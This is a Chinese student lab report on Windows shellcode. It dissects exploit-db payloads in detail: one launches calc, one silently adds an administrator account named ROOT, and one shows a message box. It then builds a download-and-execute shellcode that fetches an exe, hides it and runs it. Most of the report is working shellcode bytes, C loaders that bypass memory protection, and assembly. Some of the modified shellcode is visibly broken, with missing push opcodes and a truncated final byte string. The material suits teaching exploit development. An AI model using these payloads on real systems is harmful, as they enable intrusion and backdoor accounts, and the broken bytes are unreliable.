

# shellcode实验报告

## 实验要求

* 详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改[示例代码](https://www.exploit-db.com/shellcodes/48116)的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
  * 原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。
  * URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数

## 实验步骤

### 实验一

#### [Windows/x86 - Null-Free WinExec Calc.exe Shellcode (195 bytes)](https://www.exploit-db.com/shellcodes/48116)

1. 打开网页看到前半段代码是汇编，后面是C语言代码。在VS中建一个空工程，把整个C语言部分复制到VS中。

```c
  #include <windows.h>
  #include <stdio.h>
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv) //运行上面的code
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

* 主函数代码用到了一个较为高级的C语言语法，函数指针。
    * 定义了一个函数指针变量，func
    * 这个函数指针的变量类型是 int(*)().表示返回值是int，参数列表为空的一个函数。
* 在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了，就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。

2. 编译运行，出现错误```C2440 “类型转换”: 无法从“char [196]”转换为“int (__cdecl *)(void)”```,把.cpp重命名为 .c，再次执行，编译成功

3. 调试运行，报错```0x00319000 处(位于 Project1.exe 中)引发的异常: 0xC0000005: 执行位置 0x00319000 时发生访问冲突。```

   

* 0xC0000005 是Windows系统内部错误代码，表示内存访问异常。
这个错误，表示你当前访问了一个未分配的内存地址。或者，所访问的内存地址的保护属性冲突。比如如果内存的保护属性是 readonly，但是你写入了，那么也会引起这个访问异常错误。

4. 下一个断点，单步执行。是在运行`(int)(*func)()`时出错的。           
       

* 这一行是调用 func执行，而现在func是指向code的，也就是func的值是code的内存地址。
* 而code这段内存是存在的，它是一段已经分配的内存。因为它是全局变量，在程序运行起来后，就存在内存中，是进程的初始化过程就完成了内存分配，并由进程初始化程序从可执行文件中直接载入内存的。全局变量，肯定是有效地址，是可以访问的。
* 那就应该是内存分页的保护属性问题。
* 其实和Linux里的文件类似，操作系统中的内存分页，也分为读写执行三种保护属性。由于code是全局变量，是数据，通常情况下，会给数据设置可读和可写的内存保护属性，但是一般不会给执行属性。但是我们要去执行它，所以可能引发了异常。

5. 重新调试运行，并转到反汇编。继续往下执行，直到停到`call func`处

   

6. 单步步入执行，发现出现异常。

        

     * 这里`0x0031900 ` 就是code的第一个字节的位置。

  * 解决办法：VirtualProtect修改内存保护属性
    * PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。
    ```c
     int main(int argc, char** argv)
    {
       int (*func)();
       DWORD dwOldProtect;
       func = (int(*)()) code;
       VirtualProtect(func, sizeof(code),PAGE_EXECUTE_READWRITE, &dwOldProtect);
       (int)(*func)();
    }
    ```
    * VirtualProtect 函数会把第一个参数，这里是 func，所指向的内存地址的第二个参数，这里是 sizeof(code)，这段内存区域所在分页的内存属性修改为第三个参数的属性。
    * PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。
    * 然后 通过第四个参数 dwOldProtect 保存在修改之前的内存保护属性。

  * 再次执行成功，弹出了计算器：

       

7. 解读这段shellcode代码  
    * 如图所示下断点，运行，断点命中后转到反汇编

      

    * F11单步执行，发现和源代码中的汇编部分，是一样的 

             

          

    * 其实这段code，就是通过前面的汇编代码，编译以后直接从汇编编译以后，从可执行文件中dump出来的。`nasm 汇编器 编译为 .o文件`   
      ```bash 
      ; nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
      ; for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
      ```  
    * 如果在C语言中编写调用WinExec函数，call之后的WinExec函数的地址是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。
    * 要意识到，我们最终是要把这段code嵌入到溢出攻击的数据中。被攻击的目标对象会有动态链接的过程吗？没有，也就是code这段代码，如果要call WinExec，但不知道WinExec的地址，那就只好自己干。
    * 也就是说，shellcode，其实干了一个进程初始化的过程中，操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。
    * 早期黑客们逆向分析了Windows系统的内部代码，分析了Windows系统内部管理进程初始化相关的数据结构。发现有一个链表，管理了所有的已经加载的dll文件。这个链表，就是我们这个代码里InitOrderModuleList，这个InitOrderModuleList 在一个称为 LDR 的数据结构里。这个LDR的数据结构，又在 PEB进程环境块这个数据结构里
        * 而PEB数据结构，在每个进程中，是一个固定的位置，是一个绝对的常量地址。这个地址就是fs:ebx+0x30,所以地址就可以不依赖于任何API或者其他依赖，直接用汇编代码就能访问到。从这里我们能一层层找到dll的基地址,然后再从dll的基地址，通过PE文件的数据结构，文件头，找到dll的导出表。然后再从导出表中的数据结构中，通过函数名称的比较，得到已经在内存中的函数的地址。
        * 所以代码中的循环，findFunctionAddr 的递归函数，和searchLoop。就是在遍历dll的导出表。代码中大量使用到了硬编码的偏移地址，比如就是因为上面这些说到的系统的数据结构，都是固定的结构，在每个系统中都是一样的，所以可以固定。
        ```bash 
        ; Find the address of the Address Table
        mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
        add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
        mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
        ```  
    * 通过系统中若干数据结构这种原始的访问方式，可以找到API函数。
    * shellcode中还用到了字符串。至少函数地址的名称是需要的。还有调用WinExec的参数 calc.exe，如果我们在C语言里编程，编译器会把可执行程序的代码和字符串，放在不同的地址。代码、机器指令在 text段中， 字符串在data段中。地址相差很远。而我们objdump，只取了代码段。没有取数据段，那要shellcode就太大了，而且中间可能会有很多的填充字符。而且数据地址很有可能是绝对地址。code一dump出来，放在了其他环境中执行，那么地址就变了。所以字符串，code也是找不到的。
    * 一个程序，用到字符串，可以看看字符串的地址和代码的地址，差很远。
    * 唯一的办法，用一种什么方式，把字符串硬编码在shellcode中。让字符串，变为代码的一部分，内嵌在机器指令中。
    * 看这里，这儿636c6163和6578652e是 calc.exe的big ending 反写，压入栈以后，就形成了字符串。这样就把字符串嵌入机器指令了，作为机器指令的操作数。  

      

#### [Windows/x64 - WinExec Add-Admin (ROOT/I@mR00T$) Dynamic Null-Free Shellcode](https://www.exploit-db.com/shellcodes/48252)

1. 将网页中对应的c语言部分复制到2.c中进行调试。发现和上一个例子中的报错相同

   

2. 修改主函数

    ```c
    int main(int argc, char **argv)
    {
        int(*func)();
        DWORD dwOldProtect;
        func = (int(*)()) code;
        VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
        (int)(*func)();
    }
    ```
3. 在VS中直接运行会报错。到Project1.exe路径下用管理员身份运行程序

   

   * 运行成功

   

   * 观察用户和管理员组，发现程序执行后ROOT用户被新加入管理员组中。
        * 修改前用户

        

        * 修改后用户

        

        * 修改前管理员组

        

        * 修改后管理员组

        

- 解读这段shellcode代码  
    - 获取 ```kernel32.dll``` 的地址，并压入栈中
    ```
    get_kernel32_address:
    xor eax, eax
    mov eax, [fs:eax+0x30] ; EAX = &PEB
    mov eax, [eax+0xC]     ; EAX = &LDR
    mov esi, [eax+0x1C]    ; ESI = 1st entry InitOrderList - ntdll.dll
    lodsd                  ; EAX = 2nd entry InitOrderList - kernelbase.dll
    xchg esi, eax
    lodsd                  ; EAX = 3rd entry InitOrderList - kernel32.dll
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
    - 获取 ```kernel32.dll``` 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    mov ebx, [eax+0x3C] ; EBX = RVA NewEXEHeader
    add ebx, eax        ; EBX = &NewEXEHeader
    mov ebx, [ebx+0x78] ; EBX = RVA ExportTable
    add ebx, eax        ; EBX = &ExportTable
    ```
    - 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
    - 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
    - 根据导出表地址，获取导出地址表的地址，并压入栈中
    ```
    get_export_addr_table:
    mov edi, [ebx+0x1C] ; EDI = RVA ExportAddrTable
    add edi, eax        ; EDI = &ExportAddrTable
    push edi
    ```
    - 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
    - 在导出名字表里查找`WinExec`函数名,找到后获取函数地址，并存储在 EBX 中
    ```
    counter_init:
    xor eax, eax    ; EAX = Counter

    searchLoop:
    mov edi, edx    ; EDI = &ExportNameTable
    mov esi, esp    ; ESI = "WinE"
    xor ecx, ecx
    cld                  ; Process strings left to right
    mov edi, [edi+eax*4] ; EDI = RVA NthNameString
    add edi, [esp+0xC]   ; EDI = &NthNameString
    add cx, 0x4          ; ECX = len("WinE")
    repe cmpsb           ; compare [&NthNameString] to "WinExec"
    jz found             ; If [&NthNameString] == "WinExec" end loop
    inc eax              ; Counter ++
    jmp short searchLoop ; restart loop

    found:
    mov ecx, [esp+0x8]     ; ECX = &ExportOrdinalTable
    mov ax,  [ecx + eax*2] ;  AX = ordinalNumber
    mov edx, [esp+0x4]     ; EDX = &ExportAddrTable
    mov ebx, [edx + eax*4] ; EBX = RVA WinExec
    add ebx, [esp+0xC]     ; EBX = &WinExec
    ```
    - 添加用户操作，将命令字符串压入栈中，调用`WinExec`函数打开命令行，使用命令行执行命令
    ```
    add_user:
    ; Call WinExec( CmdLine, ShowState );
    ; $CmdLine = 'cmd.exe /c net user ROOT I@mR00T$ /ADD && net localgroup Administrators ROOT /ADD'
    ; $ShowState = SW_HIDE  
    xor ecx, ecx
    mul ecx
    mov al, 0x44    ; D : 44
    push eax
    push 0x44412f20 ; DA/  
    push 0x544f4f52 ; TOOR 
    push 0x2073726f ;  sro 
    push 0x74617274 ; tart 
    push 0x73696e69 ; sini 
    push 0x6d644120 ; mdA  
    push 0x70756f72 ; puor 
    push 0x676c6163 ; glac 
    push 0x6f6c2074 ; ol t 
    push 0x656e2026 ; en & 
    push 0x26204444 ; & DD 
    push 0x412f2024 ; A/ $ 
    push 0x54303052 ; T00R 
    push 0x6d404920 ; m@I  
    push 0x544f4f52 ; TOOR 
    push 0x20726573 ;  res 
    push 0x75207465 ; u te 
    push 0x6e20632f ; n c/ 
    push 0x20657865 ;  exe 
    push 0x2e646d63 ; .dmc 
    mov eax, esp    ; EAX = &CmdLine
    push ecx        ; $ShowState 
    push eax        ; $CmdLine
    call ebx        ; Call the WinExec Function
    ```

#### [Windows - MessageBox + Null-Free Shellcode (113 bytes)](https://www.exploit-db.com/shellcodes/28996)

1.  将网页中对应的c语言部分复制到3.c中进行调试。同样用VirtualProtect函数先对主函数进行修改。

    ```c
    #include <windows.h>
    char code[] = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
    "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
    "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
    "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
    "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
    "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
    "\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
    "\x49\x0b\x31\xc0\x51\x50\xff\xd7";


    int main(int argc, char **argv) 
    {
        int(*func)();
        DWORD dwOldProtect;
        func = (int(*)()) code;
        VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
        (int)(*func)();
    }
    ```
     * 运行结果
     
     

2. 汇编语言分析

    ```bash
    00417000 31 D2                   xor   edx,edx                        //edx = 0s
    00417002 B2 30                   mov   dl,30h                         //edx = 0x30
    00417004 64 8B 12                mov   edx,dword ptr fs:[edx]         //edx = PEB
    00417007 8B 52 0C                mov   edx,dword ptr [edx+0Ch]        //edx = _PEB_LDR_DATA
    0041700A 8B 52 1C                mov   edx,dword ptr [edx+1Ch]        //edx = InInitializationOrderModuleList.Flink
    0041700D 8B 42 08                mov   eax,dword ptr [edx+8]          //eax = _LDR_DATA_TABLE_ENTRY.DllBase
    00417010 8B 72 20                mov   esi,dword ptr [edx+20h]        //esi = _LDR_DATA_TABLE_ENTRY.BaseDllName.Buffer
    00417013 8B 12                   mov   edx,dword ptr [edx]            //edx = _LDR_DATA_TABLE_ENTRY.InInitializationOrderLinks.Flink
    00417015 80 7E 0C 33             cmp   byte ptr [esi+0Ch],33h         //search "kernel32.dll"
    00417019 75 F2                   jne   shellcode+0Dh (41700Dh) 
    0041701B 89 C7                   mov   edi,eax                        //edi = kernel32.dll.DllBase (IMAGE_DOS_HEADER)
    0041701D 03 78 3C                add   edi,dword ptr [eax+3Ch]        //edi = kernel32.dll.IMAGE_NT_HEADERS (kernel32.dll.DllBase + IMAGE_DOS_HEADER.e_lfanew)
    00417020 8B 57 78                mov   edx,dword ptr [edi+78h]        //edx = kernel32.dll.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress (RVA)
    00417023 01 C2                   add   edx,eax                        //edx = kernel32.dll.DllBase + kernel32.dll.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress (Real Address)
    00417025 8B 7A 20                mov   edi,dword ptr [edx+20h]        //edi = kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfNames (RVA)
    00417028 01 C7                   add   edi,eax                        //edi = kernel32.dll.DllBase + kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfNames (Real Address)
    0041702A 31 ED                   xor   ebp,ebp                        //ebp = 0
    0041702C 8B 34 AF                mov   esi,dword ptr [edi+ebp*4]      //esi = kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfNames[ebp] (RVA)
    0041702F 01 C6                   add   esi,eax                        //esi = kernel32.dll.DllBase + kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfNames[ebp] (Real Address)
    00417031 45                      inc   ebp                            //ebp++
    00417032 81 3E 46 61 74 61       cmp   dword ptr [esi],61746146h      //match "Fata"
    00417038 75 F2                   jne   shellcode+2Ch (41702Ch) 
    0041703A 81 7E 08 45 78 69 74    cmp   dword ptr [esi+8],74697845h    //match "Exit"
    00417041 75 E9                   jne   shellcode+2Ch (41702Ch) 
    00417043 8B 7A 24                mov   edi,dword ptr [edx+24h]        //edi = kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals (RVA)
    00417046 01 C7                   add   edi,eax                        //edi = kernel32.dll.DllBase + kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals (RVA) (Real Address)
    00417048 66 8B 2C 6F             mov   bp,word ptr [edi+ebp*2]        //ebp = kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals[ebp]
    0041704C 8B 7A 1C                mov   edi,dword ptr [edx+1Ch]        //edi = kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfFunctions (RVA)
    0041704F 01 C7                   add   edi,eax                        //edi = kernel32.dll.DllBase + kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfFunctions (Real Address)
    00417051 8B 7C AF FC             mov   edi,dword ptr [edi+ebp*4-4]    //edi = kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfFunctions[ebp-1] (RVA)
    00417055 01 C7                   add   edi,eax                        //edi = kernel32.dll.DllBase + kernel32.dll.IMAGE_EXPORT_DIRECTORY.AddressOfFunctions[ebp-1] (Real Address)
    00417057 68 79 74 65 01          push  1657479h                       //push " BrokenByte"
    0041705C 68 6B 65 6E 42          push  426E656Bh 
    00417061 68 20 42 72 6F          push  6F724220h 
    00417066 89 E1                   mov   ecx,esp                        //ecx = "@BrokenByte."
    00417068 FE 49 0B                dec   byte ptr [ecx+0Bh]             //set end of '\0'
    0041706B 31 C0                   xor   eax,eax                        //eax = 0
    0041706D 51                      push  ecx                            //lpMessageText = ecx = "@BrokenByte"
    0041706E 50                      push  eax                            //uAction = eax = 0
    0041706F FF D7                   call  edi                            //FataAppExitA(0, "@BrokenByte");
    ```
----

### 实验二

[Windows/x86 - MSVCRT System + Dynamic Null-free + Add RDP Admin + Disable Firewall + Enable RDP Shellcode (644 Bytes)](https://www.exploit-db.com/exploits/48355)

* 将自己的下载网址`https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe`转化为十六进制

    ```c
    0x6578652e  // exe.
    0x30323032  // 0202
    0x51514350  // QQCP
    0x2f455845  // /EXE
    0x5f515143  // _QQC
    0x502f5151  // P/QQ
    0x43502f62  // CP/b
    0x65777171  // ewqq
    0x2f6d6f63  // /moc
    0x2e71712e  // .qq.
    0x6e776f64  // nwod
    0x2f2f3a73  // //:s
    0x70747468  // ptth
    ```

1. 找到kernel32的基地址

    ```bash
    xor ecx,ecx
    mov eax,[fs:ecx+0x30] ;Eax=PEB
    mov eax,[eax+0xc] ;eax=PEB.Ldr
    mov esi,[eax+0x14] ;esi=PEB.Ldr->InMemOrderModuleList
    lodsd 
    xchg esi,eax
    lodsd
    mov ecx,[eax+0x10] ;ecx=kernel32.dll base address

    ;mov ebx,[ecx+0x3c] ;kernel32.dll +0x3c=DOS->e_flanew
    add ebx,ecx ;ebx=PE HEADER
    mov ebx,[ebx+0x78];Data_DIRECTORY->VirtualAddress
    add ebx,ecx ;IMAGE_EXPORT_DIRECTORY

    mov esi,[ebx+0x20] ;AddressOfNames
    add esi,ecx
    ```

2. 找到GetProcAddress

    ```bash
    or edx,edx

    count:
    inc edx
    lodsd
    add eax,ecx
    cmp dword [eax],'GetP'
    jnz count
    cmp dword [eax+4],'rocA'
    jnz count
    cmp dword [eax+8],'ddre'
    jnz count
    mov esi,[ebx+0x1c] ;AddressOfFunctions
    add esi,ecx

    mov edx,[esi+edx*4]
    add edx,ecx ;edx=GetProcAddress()

    xor esi,esi
    mov esi,edx ;GetProcAddress()
    mov edi,ecx ;kernel32.dll
    ```

3. 使用GetProcAddress确定LoadLibrary函数地址

    ```bash
    ;finding address of LoadLibraryA()
    xor eax,eax
    push eax
    push 0x41797261
    push 0x7262694c
    push 0x64616f4c

    push esp
    push ecx

    call edx


    add esp,12
    ```

4. 使用LoadLibrary加载加载urlmon.dll

    ```bash
    ;LoadLibraryA("urlmon.dll")
    xor ecx,ecx

    push 0x41416c6c
    mov [esp+2],byte cl
    push 0x642e6e6f
    push 0x6d6c7275

    push esp
    call eax

    add esp,12
    ```

5. 获得URLDownloadToFileA入口
    ```bash

    ;finding address of URLDownloadToFileA()
    xor ecx,ecx
    push 0x42424165
    mov [esp+2],byte cl
    push 0x6c69466f
    push 0x5464616f
    push 0x6c6e776f
    push 0x444c5255

    push esp
    push eax
    call esi

    add esp,20
    push eax 
    ```

6. 开始下载文件

    ```bash
    ;URLDownloadToFileA(NULL,url,save as,0,NULL)
    download:
    pop eax
    xor ecx,ecx
    push ecx


    ;change it to file url

    0x6578652e  ; exe.
    0x30323032  ; 0202
    0x51514350  ; QQCP
    0x2f455845  ; /EXE
    0x5f515143  ; _QQC
    0x502f5151  ; P/QQ
    0x43502f62  ; CP/b
    0x65777171  ; ewqq
    0x2f6d6f63  ; /moc
    0x2e71712e  ; .qq.
    0x6e776f64  ; nwod
    0x2f2f3a73  ; //:s
    0x70747468  ; ptth


    push esp 
    pop ecx ;https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe

    xor ebx,ebx
    push ebx
    ;save as (no need change it.if U want to change it,do it)
    push 0x6578652e
    push 0x646c7970

    push esp ;pyld.exe
    pop ebx ;save as

    xor edx,edx
    push eax
    push edx
    push edx
    push ebx
    push ecx
    push edx

    call eax


    pop ecx
    add esp,44
    xor edx,edx
    cmp eax,edx
    push ecx
    jnz download ;if it fails to download , retry contineusly

    pop edx
    ```
7. 找到SetFileAttributesA()地址
    ```bash
    
    ;Finding address of SetFileAttributesA()
    xor edx,edx


    push 0x42424173
    mov [esp+2],byte dl
    push 0x65747562
    push 0x69727474
    push 0x41656c69
    push 0x46746553

    push esp
    push edi

    call esi


    add esp,20 ;U must adjust stack or it will crash
    ```
8. 调用SetFileAttributesA()

    ```bash
    ;calling SetFileAttributesA("python.exe",FILE_ATTRIBUTE_HIDDEN) 
    xor ecx,ecx
    push ecx
    push 0x6578652e
    push 0x646c7970

    push esp
    pop ecx

    xor edx,edx
    add edx,2 ;FILE_ATTRIBUTE_HIDDEN

    push edx
    push ecx

    call eax

    add esp,8
    ```

9. 找到WinExec()函数地址

    ```bash
    ;finding address of WinExec()
    xor ecx,ecx

    push 0x41636578
    mov [esp+3],byte cl
    push 0x456e6957

    push esp
    push edi
    call esi


    add esp,8
    ```
10. 执行函数
    ```bash
    ;calling WinExec("PCQQ2020.exe",0)
    xor ecx,ecx
    push ecx
    0x6578652e  ; exe.
    0x30323032  ; 0202
    0x51514350  ; QQCP

    push esp
    pop ecx

    xor edx,edx
    push edx
    push ecx

    call eax

    add esp,8
    ```
11. 结束进程
    ```bash

    ;finding address of ExitProcess()
    xor ecx,ecx
    push 0x41737365
    mov [esp+3],byte cl
    push 0x636f7250
    push 0x74697845

    push esp
    push edi

    call esi

    call eax
    ```
12. 修改示例代码

    ```bash
    \x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0"
    ```
13. c文件

    ```c
    #include<stdio.h>
    #include<string.h>
    #include <windows.h>

    char code[] = 
    "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x5